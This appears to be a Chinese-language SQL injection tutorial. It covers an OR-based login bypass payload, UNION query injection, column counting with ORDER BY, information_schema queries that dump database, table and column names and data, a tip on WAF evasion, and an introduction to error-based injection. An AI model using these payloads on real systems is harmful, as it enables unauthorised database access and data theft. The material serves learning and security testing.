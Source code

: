 * **如果admin真的存在 password = 123'or1#**

```php
$sql = select * from users where username = 'admin' or 1
$sql = select * from users where username = 'admin'  and  password = '123' or 1; 
```

  

#### 注入语句

**找到注入点以后，我们就可以执行相应的sql语句，来获取数据库中的信息**



## UNION 联合查询注入

**联合查询是使用 union 或者 union all 拼接两条 select 语句来查询注入方式**


> 注释：默认地，UNION 操作符选取不同的值。如果允许重复的值，请使用 UNION ALL。

```sql
select * from users union all select user(),database(),version();
```

#### **order by 语句**

> 要注意的是联合查询前后两条 select 语句查询数据的列数是相等的，故需要使用 order by 语句来判断注入点sql语句查询的列数是多少
>
> order by 排序超过查询结果列数的时候就会抛出错误，故可以使用它来判断前一条 select 语句查询结果的列数

#### **查询数据库内容常用的语句**

> table_name列：记录当前数据库管理系统下表的合集
>  table_schema列：记录当前数据库管理系统下数据库名的合集
>  column_name列：记录当前数据库管理系统下的所有列的合集

```sql
* "爆库" ： select group_concat(schema_name) from information_schema.schemata;
* "爆表1"： select group_concat(table_name) from information_schema.tables where table_schema = 'xxx';
information_schema,mysql,performance_schema,sqli 
* "爆表2"： select  table_name from information_schema.tables where table_schema = 'xxx' limit 1,1; (有时候waf会把group_concat()屏蔽掉)
* "爆字段1": select group_concat (column_name) from information_schema.columns where table_name = 'xxx' and table_schema = 'xxx';
* "爆字段2": select column_name from information_schema.columns where tables_name 'users' and table_schema = 'xxxx' limit 1,1;(同理)
* "爆数据值": select group_concat(xxx,0x3a(冒号),xxx) from xxx.xxx;

```

## 报错注入

MYSQL 中有一些函数在报错的时候会抛出错误的代码，借此执行一些特定的SQL语句来获取数据库的信息。

**在有些时候虽然也存在注入点也能够执行SQL语句，但是页面并没有打印sql执行的结果的回显的位置，但是如果抛出错误代码就可以利用报错回显，来查看注入SQL语句的执行的结果。**
